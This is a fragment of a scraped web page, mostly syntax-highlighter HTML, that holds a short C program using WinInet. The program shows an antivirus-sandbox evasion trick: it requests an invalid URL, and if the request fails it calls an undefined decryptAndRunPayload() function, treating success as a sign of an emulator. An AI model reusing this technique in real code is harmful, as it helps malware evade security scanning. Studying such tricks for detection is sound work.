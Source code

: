     <div id="crayon-59ca5e7cae36a567733701" class="crayon-syntax crayon-theme-classic crayon-font-monaco crayon-os-pc print-yes notranslate" data-settings=" minimize scroll-mouseover" style=" margin-top: 12px; margin-bottom: 12px; font-size: 12px !important; line-height: 15px !important;">
    
    <div class="crayon-toolbar" data-settings=" mouseover overlay hide delay" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><span class="crayon-title"></span>
    <div class="crayon-tools" style="font-size: 12px !important;height: 18px !important; line-height: 18px !important;"><div class="crayon-button crayon-nums-button" title="Toggle Line Numbers"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-plain-button" title="Toggle Plain Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-wrap-button" title="Toggle Line Wrap"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-expand-button" title="Expand Code"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-copy-button" title="Copy"><div class="crayon-button-icon"></div></div><div class="crayon-button crayon-popup-button" title="Open Code In New Window"><div class="crayon-button-icon"></div></div></div></div>
    <div class="crayon-info" style="min-height: 16.8px !important; line-height: 16.8px !important;"></div>
    <div class="crayon-plain-wrap"><textarea wrap="soft" class="crayon-plain print-no" data-settings="dblclick" readonly style="-moz-tab-size:4; -o-tab-size:4; -webkit-tab-size:4; tab-size:4; font-size: 12px !important; line-height: 15px !important;">
    #include &lt;WinInet.h&gt;
    
    #pragma comment(lib, "Wininet.lib")
    
    int main() {
    
    char cononstart[] = "http://www.notrealwebsite.com//"; //Invalid URL
    
    char readbuf[1024];
    
    HINTERNET httpopen, openurl;
    
    DWORD read;
    
    httpopen = InternetOpen( NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0 ); openurl = InternetOpenUrl( httpopen, cononstart, NULL, NULL, INTERNET_FLAG_RELOAD | INTERNET _FLAG_NO_CACHE_WRITE, NULL );
    
    if ( !openurl ) { // Access failed, we are not in AV
    
    InternetCloseHandle(httpopen);
    
    InternetCloseHandle(openurl);
    
    decryptAndRunPayload();
    
    }
    
    else { // Access successful, we are in AV and redirected to a custom webpage
    
    InternetCloseHandle(httpopen);
    
    InternetCloseHandle(openurl);
    
    }
    
    return 0;
    
    }</textarea></div>
    <div class="crayon-main" style="">
    <table class="crayon-table">
    <tr class="crayon-row">
    <td class="crayon-nums " data-settings="show">